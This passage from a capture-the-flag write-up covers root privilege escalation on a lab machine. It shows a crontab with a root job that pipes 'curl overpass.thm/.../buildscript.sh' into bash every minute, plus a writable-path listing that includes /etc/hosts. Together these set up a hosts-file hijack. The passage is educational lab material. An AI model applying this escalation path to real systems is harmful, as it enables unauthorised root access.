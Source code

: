 - Let's escalate now.

---

## 👑 Root Privilege Escalation

- OK, this one took a bit since I was running a server from wrong directory, I'll explain everything no worries. I did a lot of enumeration and these are the findings that will get us to root.

  ```
  james@overpass-prod:~$ cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  # Update builds from latest code
  * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
  ```

  ```
  james@overpass-prod:~$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  dev/char
  dev/fd
  dev/full
  dev/fuse
  dev/log
  dev/mqueue
  dev/net
  dev/null
  dev/ptmx
  dev/pts
  dev/random
  dev/shm
  dev/stderr
  dev/stdin
  dev/stdout
  dev/tty
  dev/urandom
  dev/zero
  etc/hosts
  etc/systemd
  home/james
  lib/systemd
  run/acpid.socket
  run/dbus
  run/lock
  run/screen
  run/shm
  run/systemd
  run/user
  run/uuidd
  sys/fs
  ```